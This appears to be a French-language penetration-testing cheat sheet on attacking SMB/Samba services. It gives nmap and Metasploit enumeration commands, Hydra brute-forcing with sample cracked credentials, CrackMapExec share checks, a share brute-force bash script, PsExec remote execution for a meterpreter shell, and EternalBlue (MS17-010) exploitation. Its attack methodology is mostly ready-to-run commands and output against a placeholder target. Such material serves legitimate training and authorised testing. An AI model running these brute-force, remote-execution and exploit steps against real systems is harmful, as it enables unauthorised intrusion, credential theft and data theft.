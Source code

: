 # 📁 Énumération SMB/Samba

[← Retour à la table des matières](../README.md)

## Port par défaut : 445

## Nmap Scripts SMB
```bash
nmap -p445 --script smb-protocols targetIP
nmap -p445 --script smb-security-mode targetIP
nmap -p445 --script smb-enum-sessions targetIP
nmap -p445 --script smb-enum-shares targetIP
nmap --script smb-os-discovery.nse -p 445 targetIP
```

## Metasploit Modules
```bash
use scanner/smb/smb_enumusers
use scanner/smb/smb_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_version
```

## Sessions anonymes
```bash
smbclient -L targetIP -N
rpcclient -U "" -N targetIP
```

## Enum4linux
```bash
enum4linux -a targetIP
```

## Hydra Bruteforce → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
# Bruteforce SMB
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP
```

## CrackMapExec - Énumération des shares → [📖 Guide CrackMapExec](../06-tools/crackmapexec.md)
```bash
# Vérifier les permissions des shares avec des credentials
crackmapexec smb targetIP -u administrator -p password --shares
```

## Connexion aux shares → [📖 Guide SMBClient](../06-tools/smbclient.md)
```bash
# Connexion au share C$ (nécessite des privilèges admin)
smbclient //targetIP/C$ -U administrator

# Connexion à un share spécifique
smbclient //targetIP/sharename -U username
```

## Méthodologie d'attaque SMB complète

### Étape 1 : Bruteforce initial → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
# Découverte des credentials avec Hydra
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP
```

**Résultats typiques :**
```
[445][smb] host: targetIP   login: rooty   password: spongebob
[445][smb] host: targetIP   login: demo   password: password1
[445][smb] host: targetIP   login: auditor   password: hellokitty
[445][smb] host: targetIP   login: administrator   password: pineapple
```

### Étape 2 : Énumération des shares par utilisateur → [📖 Guide CrackMapExec](../06-tools/crackmapexec.md)
```bash
# Tester chaque credential trouvé pour lister les shares
crackmapexec smb targetIP -u rooty -p spongebob --shares
crackmapexec smb targetIP -u demo -p password1 --shares
crackmapexec smb targetIP -u auditor -p hellokitty --shares
crackmapexec smb targetIP -u administrator -p pineapple --shares
```

### Étape 3 : Connexion et exploration → [📖 Guide SMBClient](../06-tools/smbclient.md)
```bash
# Connexion avec le compte ayant le plus de privilèges (généralement administrator)
smbclient //targetIP/C$ -U administrator

# Si C$ n'est pas accessible, tester d'autres shares découverts
smbclient //targetIP/Users -U username
smbclient //targetIP/shared -U username
```

### Étape 4 : Commandes dans smbclient
```bash
# Une fois connecté au share SMB :
ls                    # Lister les fichiers
cd directory         # Changer de répertoire
get filename         # Télécharger un fichier
put localfile        # Upload un fichier
mget *.txt          # Télécharger plusieurs fichiers
recurse ON          # Activer la récursion
prompt OFF          # Désactiver les confirmations
mget *              # Télécharger tout récursivement
```

## Analyse des permissions

### Interprétation des résultats CrackMapExec
```bash
# Exemple de sortie crackmapexec --shares :
# ADMIN$    Disk      Remote Admin           READ,WRITE
# C$        Disk      Default share          READ,WRITE  
# IPC$      IPC       Remote IPC             READ
# Users     Disk      Users Directory        READ
```

**Légende des permissions :**
- `READ` : Lecture seule
- `WRITE` : Écriture possible
- `READ,WRITE` : Accès complet
- `NO ACCESS` : Aucun accès

### Priorités d'exploration
1. **C$** : Accès au système de fichiers complet (admin requis)
2. **ADMIN$** : Répertoire Windows/System32 (admin requis)  
3. **Users** : Répertoires utilisateurs (souvent accessible)
4. **Shares personnalisés** : Peuvent contenir des données sensibles

## Script de bruteforce des shares
```bash
#!/bin/bash
TARGET="targetIP"
WORDLIST="/root/Desktop/wordlists/shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null
    
    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```

## SMB avec PsExec (nécessite des credentials légitimes)

### Test de login SMB
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
```

### PsExec avec Impacket
```bash
# Exécution directe
psexec.py administrator@targetIP cmd.exe
```

### PsExec avec Metasploit
```bash
use exploit/windows/smb/psexec
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
# Obtention d'un meterpreter
```

## MS17-010 EternalBlue

### Détection de la vulnérabilité
```bash
# Nmap script de détection
nmap -sV -p 445 --script=smb-vuln-ms17-010 targetIP

# Scanner Metasploit
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS targetIP
run
```

### Exploitation EternalBlue
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS targetIP
run